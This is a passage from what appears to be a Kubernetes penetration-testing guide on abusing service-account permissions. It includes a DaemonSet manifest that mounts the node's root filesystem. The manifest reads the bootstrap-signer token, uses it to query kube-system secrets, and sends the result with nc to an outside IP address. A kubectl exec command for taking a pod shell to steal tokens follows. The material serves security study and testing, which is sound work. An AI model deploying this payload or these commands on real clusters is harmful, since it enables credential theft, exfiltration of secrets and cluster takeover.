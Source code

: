 It's possible to abouse these permissions to **create a new pod** and estalae privileges like in the previous example.

The following yaml **creates a daemonset and exfiltrates the token of the SA** inside the pod:

```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: alpine
  namespace: kube-system
spec:
  selector:
    matchLabels:
      name: alpine
  template:
    metadata:
      labels:
        name: alpine
    spec:
      serviceAccountName: bootstrap-signer
      automountServiceAccountToken: true
      hostNetwork: true
      containers:
      - name: alpine
        image: alpine
        command: ["/bin/sh"]
        args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
        volumeMounts:
        - mountPath: /root
          name: mount-node-root
      volumes:
      - name: mount-node-root
        hostPath:
          path: /
```

### **Pods Exec**

**`pods/exec`** is a resource in kubernetes used for **running commands in a shell inside a pod**. This allows to **run commands inside the containers or get a shell inside**.

Therfore, it's possible to **get inside a pod and steal the token of the SA**, or enter a privileged pod, escape to the node, and steal all the tokens of the pods in the node and (ab)use the node:

```bash
kubectl exec -it <POD_NAME> -n <NAMESPACE> -- sh
```

### port-forward
